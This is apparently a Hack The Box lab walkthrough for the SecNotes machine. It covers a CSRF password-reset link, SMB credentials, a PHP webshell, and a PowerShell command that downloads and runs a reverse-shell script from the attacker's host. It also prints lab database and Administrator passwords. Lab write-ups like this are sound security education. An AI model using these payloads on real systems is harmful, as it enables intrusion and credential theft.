# SecNotes (`10.10.10.97`)

## Summary

CSRF attack to reset `tyler`'s password on the `SecNotes` site on port 80. Log in and see user credentials to the SMB share as `tyler`. Upload a `PHP` webshell and get a full shell. Find Administrator password in `.bash_history` file on Ubuntu VM on WSL.

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `secnotes.htb` to `10.10.10.97`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports secnotes.htb
# Nmap 7.80 scan initiated Sun Nov 29 02:34:22 2020 as: nmap -A -v -p- -Pn -oN allports secnotes.htb
Nmap scan report for secnotes.htb (10.10.10.97)
Host is up (0.053s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m31s, deviation: 4h37m08s, median: 7m30s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-29T00:46:42-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-29T08:46:43
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   52.38 ms 10.10.14.1
2   52.35 ms secnotes.htb (10.10.10.97)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 29 02:39:50 2020 -- 1 IP address (1 host up) scanned in 328.53 seconds
```

### Enumerating Port 80

I create a user with the credentials `a:aaaaaa`.



I then log in and see this page:



I reset my password and see the following request: 



The `Contact Us` page shows me a valid username for the site: `tyler`.



I'm able to send a link that's clicked on by the admin.





I might be able to reset his password. I send the following comment in the `Contact Us` form:

```
http://10.10.10.97/change_pass.php?password=aaaaaa&confirm_password=aaaaaa&submit=submit
```

I can now login with the credentials `tyler:aaaaaa`.





I find some credentials that look like SMB credentials.



```
tyler / 92g!mA8BGjOirkL%OG*&
```

### Enumerating SMB



## Reverse Shell









I spin up a webserver in my current directory with `$ sudo python3 -m http.server 80` and then navigate to the following address to get a reverse shell.

`http://secnotes.htb:8808/cmd.php?cmd=C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -c IEX(new-object net.webclient).downloadstring('http://10.10.14.27/shell.ps1')`



## Privilege Escalation

```
PS C:\inetpub\wwwroot> type db.php
<?php

if ($includes != 1) {
        die("ERROR: Should not access directly.");
}

/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>

```


```
C:\Program Files\MySQL\MySQL Server 8.0\bin>mysqldump -u secnotes --password=q8N#9Eos%JinE57tke72 secnotes
mysqldump -u secnotes --password=q8N#9Eos%JinE57tke72 secnotes
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 8.0.11, for Win64 (x86_64)
--
-- Host: localhost    Database: secnotes
-- ------------------------------------------------------
-- Server version       8.0.11

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
 SET NAMES utf8mb4 ;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

...

--
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
 SET character_set_client = utf8mb4 ;
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(255) NOT NULL,
  `created_at` datetime DEFAULT CURRENT_TIMESTAMP,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=9 DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
INSERT INTO `users` VALUES (5,'tyler','$2y$10$IMZPI.99fAPmsvGi0KWaJ.8pakoHDfobENhzx4Kwbb/7OpvFXaQt.','2018-06-22 03:50:55'),(8,'eks','$2y$10$dv3rCvSFRMYtcdgNWhF44u3amnovAuffb0R0yVtu5Dk8qc41Rbpmm','2018-08-19 15:53:14');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2020-11-30  0:14:28
```


I switch to a `cmd` shell and run `bash.exe` that I found on the system. I upgrade to a full tty session with `python` and then find Administrator credentials in the `.bash_history` file.




`u6!4ZwgwOM#^OBf#Nwnh` is the password.

## Root

